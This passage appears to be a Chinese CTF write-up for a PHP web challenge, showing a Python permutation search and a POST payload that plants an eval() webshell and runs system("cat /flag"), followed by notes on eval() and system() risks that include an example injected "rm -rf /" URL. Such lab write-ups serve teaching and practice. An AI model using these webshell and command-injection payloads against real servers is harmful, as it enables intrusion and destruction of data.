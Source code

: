 ```python
    itertools.permutations(string, len(string)) 会生成字符串 string 的所有全排列组合
    排列的长度与原字符串长度相同。例如，如果 string 是 abc
    那么它会生成 ['abc', 'acb', 'bac', 'bca', 'cab', 'cba'] 这样的全排列列表。
    """
    for i in itertools.permutations(string, len(string)):
        # 每次循环，都会从生成的排列中取出一个来，重新赋值给i
        i = ''.join(i)
        # 设置一个循环，如果i不在这个lines列表里，就输出i
        if i not in lines:
            print(i)
            break
```

这个想法确实非常细致，确实要先去验证这个txt是否包含所有的排列方式，这种思维方式确实值得学习

运行代码，找到这个缺失的排序是orzexapvn（这个方法发现找到这个排序太慢了，等官方题解出了看看有没有更快 的方式）

根据没有被屏蔽的符号和函数，我们构造一下payload参数，向该地址发一个POST请求，参数为以下内容

```
?incompetent=HelloHacker
&WuCup=eval($_POST[0]);#oxzverapn
&0=system("cat /flag");
```

这段参数的意思是，我们先传入incompetent=HelloHacker让它符合起初的条件，然后传入一个WuCup，让他等于一个WebShell的木马，因为我们包含了oxzverapn，所以会通过校验，执行到之前php代码中提到的eval()函数的部分，最后我们让变量0执行一个system()的函数，这个system的函数主要用于执行服务器命令，通过cat命令查看flag文件内容。

> 1. eval () 函数
>    - 定义与功能
>      - `eval()`函数是 PHP 中的一个非常强大但也很危险的函数。它将传入的字符串作为 PHP 代码进行求值并执行。例如，`eval('echo "Hello, World!";');`会输出`Hello, World!`。这个函数可以动态地执行 PHP 代码，使得程序能够根据不同的条件或者用户输入来运行不同的代码片段。
>    - 应用场景
>      - **模板引擎**：在一些简单的模板引擎实现中，`eval()`函数可以用于将模板中的变量替换和代码片段动态地转换为可执行的 PHP 代码。例如，将模板中的`<?php echo $variable;?>`这样的代码片段替换为实际的变量值后，使用`eval()`函数来执行最终的输出逻辑。
>      - **代码生成与执行**：当需要根据用户的配置或者规则动态地生成并执行 PHP 代码时，`eval()`函数可以派上用场。比如，一个自定义的脚本语言解释器，可以将用户编写的自定义脚本转换为 PHP 代码字符串，然后使用`eval()`函数来执行。
>    - 安全风险
>      - **代码注入**：如果用户能够控制传入`eval()`函数的字符串，就可以注入恶意的 PHP 代码。例如，如果用户输入`eval($_GET['code']);`，攻击者就可以通过构造类似`http://example.com?code=system("rm -rf /");`这样的 URL 来删除服务器上的文件，这是非常危险的。所以在使用`eval()`函数时，必须对传入的内容进行严格的验证和过滤，确保其安全性。
> 2. system () 函数
>    - 定义与功能
>      - `system()`函数用于在 PHP 中执行外部命令，并输出命令执行后的结果。例如，`system('ls -l');`会在服务器上执行`ls -l`命令（列出当前目录下文件的详细信息），并将命令的结果输出到浏览器或者命令行终端（取决于 PHP 的运行环境）。它会创建一个子进程来执行指定的命令。
>    - 应用场景
>      - **系统管理任务**：在服务器端的 PHP 应用程序中，如果需要执行一些系统管理相关的任务，如备份数据库（`system('mysqldump -u root -p password database > backup.sql');`）、清理日志文件（`system('rm -rf /var/log/old_logs');`）等，可以使用`system()`函数。
>      - **与外部程序交互**：当 PHP 应用程序需要与外部的命令行工具或者其他程序进行交互时，`system()`函数可以用来调用这些程序并获取它们的输出。例如，调用一个图像处理工具来对服务器上的图像文件进行处理。
>    - 安全风险
>      - **命令注入**：和`eval()`函数类似，`system()`函数也存在严重的安全风险。如果用户能够控制传入`system()`函数的命令字符串，就可以执行任意的系统命令。例如，`system($_GET['command']);`这样的代码是非常危险的，攻击者可以通过构造恶意的 URL 来执行诸如删除文件、获取敏感信息等恶意操作。因此，在使用`system()`函数时，必须对用户输入的内容进行严格的过滤和验证，防止命令注入攻击。
